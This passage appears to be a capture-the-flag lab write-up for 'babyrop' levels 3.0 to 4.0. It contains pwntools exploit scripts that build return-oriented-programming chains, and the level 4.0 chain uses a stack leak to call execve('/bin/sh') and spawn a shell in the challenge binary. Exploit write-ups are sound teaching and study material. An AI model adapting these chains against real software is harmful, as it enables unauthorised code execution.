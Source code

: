 ```python
from pwn import *
import sys

offset = 104
win_stages = [0x40203f,0x401f5f,0x4022e4,0x4021fe,0x40211b]
gadget = 0x4026d3

payload = b"a"*offset
for i in range(5):
    payload += p64(gadget)
    payload += p64(i+1)
    payload += p64(win_stages[i])

sys.stdout.buffer.write(payload)
```

```shell
python run.py | /challenge/babyrop_level3.0 
```

## level 3.1

- GDB -> find offset and function addresses
- ROPgadget -> find gadget address

Now, proceed same as prev

## level 4.0

- Got starting address of buffer from the stack leak output
- `checksec /challenge/babyrop_level4.0` -> NX is enabled (stack is non-executable), so shellcode injection won't work
- GDB -> find offset
- ROPgadget -> find gadgets to construct ROP chain

### Spawning a shell

```python
from pwn import *

p = process('/challenge/babyrop_level4.0')
p.recvuntil(b'[LEAK]')
addr = int(str(p.recvline().split(b" ")[-1])[2:-4], 16)

offset = 0x38
pop_rdi = 0x401e07 # pop rdi; ret
pop_rsi = 0x401e17 # pop rsi; ret
pop_rdx = 0x401de8 # pop rdx; ret
pop_rax = 0x401df7 # pop rax; ret
syscall = 0x401ddf
binsh = addr + offset + 72

payload = b'A'*offset
payload += p64(pop_rdi) + p64(binsh) # 1st arg: address of "/bin/sh"
payload += p64(pop_rsi) + p64(0) # 2nd arg: NULL
payload += p64(pop_rdx) + p64(0) # 3rd arg: NULL
payload += p64(pop_rax) + p64(59) # syscall number for execve
payload += p64(syscall) # execve("/bin/sh", NULL, NULL)
payload += b"/bin/sh\x00"

p.sendline(payload)
p.interactive()
```
